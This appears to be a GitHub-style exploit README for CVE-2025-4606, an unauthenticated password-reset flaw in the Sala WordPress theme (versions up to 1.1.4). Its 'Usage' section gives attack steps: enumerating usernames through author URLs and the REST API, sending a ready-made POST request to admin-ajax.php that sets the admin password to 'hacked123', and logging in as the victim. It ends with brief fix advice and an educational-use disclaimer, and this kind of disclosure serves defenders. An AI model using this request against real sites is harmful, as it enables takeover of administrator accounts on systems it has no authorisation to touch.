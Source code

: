 # CVE-2025-4606- WordPress Sala Theme <= 1.1.4 - Unauthenticated Privilege Escalation via Password Reset/Account Takeover

🔥 **Vulnerability Summary**  
The WordPress theme Sala versions <= 1.1.4 is vulnerable to an **unauthenticated privilege escalation** vulnerability. This flaw allows **unauthenticated attackers** to reset passwords of arbitrary users — including administrators — by directly invoking an exposed AJAX endpoint without verifying the identity of the requester.

This vulnerability stems from the `change_password_ajax` function registered to `wp_ajax_nopriv_`, which sets a new password for any valid user login without checking if the request is authorized.

🔍 **Affected Theme**
- **Theme Name:** Sala – Startup & SaaS WordPress Theme
- **Affected Version:** <= 1.1.4
- **Vulnerability Type:** Unauthenticated Privilege Escalation
- **CVE ID:** CVE-2025-4606
- **CVSS Score:** 9.8 (Critical)
- **Impact:** Complete Account Takeover (Including Admin)

🧪 **Exploit Features**
- 🔓 **No authentication required**
- 🔄 **Overwrites any user’s password** by providing a valid login name
- 📬 **Targets the AJAX endpoint** `/wp-admin/admin-ajax.php?action=change_password_ajax`
- 🧠 **Works instantly** if the attacker knows a valid username (e.g., admin)

🧠 **Researcher**
- Credit: [Thai An](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/thai-an-thai-an)

🚀 **Usage**
1. Identify a valid username on the target WordPress site. You can do this by checking:
   - Public author archive URLs (`/author/username`)
   - REST API endpoints like `/wp-json/wp/v2/users`
2. Craft the following POST request to reset the user’s password:

   ```http
   POST /wp-admin/admin-ajax.php HTTP/1.1
   Host: targetsite.com
   Content-Type: application/x-www-form-urlencoded

   action=change_password_ajax&login=admin&new_password=hacked123
   ```

3. If successful, you can now log in as the targeted user using the new password (`hacked123` in the example above).
4. Visit `/wp-login.php` and verify access.

🛠 **Fix Recommendations**
- Theme developers should remove or secure the `wp_ajax_nopriv_change_password_ajax` hook.
- Always check `is_user_logged_in()` and verify the identity of the user before allowing sensitive actions.
- Implement nonce checks to prevent CSRF and unauthenticated abuse.

🔒 **Disclaimer:**  
This information is provided for educational and authorized penetration testing purposes only. Unauthorized exploitation of systems is illegal and unethical.

📚 **Reference:**  
- [Wordfence Advisory](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/sala/sala-startup-saas-wordpress-theme-114-unauthenticated-privilege-escalation-via-password-resetaccount-takeover)
